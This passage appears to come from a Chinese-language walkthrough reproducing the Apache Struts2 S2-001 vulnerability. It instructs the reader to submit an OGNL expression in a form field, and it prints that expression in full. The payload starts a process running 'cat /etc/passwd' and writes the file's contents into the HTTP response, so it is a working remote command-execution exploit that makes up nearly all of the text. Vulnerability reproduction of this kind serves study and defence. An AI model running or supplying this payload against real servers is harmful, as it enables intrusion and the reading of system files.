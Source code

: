 ![s2-001-5](images/s2-001-5.png)

在输入框中输入如下 OGNL 表达式执行 `cat /etc/passwd` 命令，点击提交，查看如下页面

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```

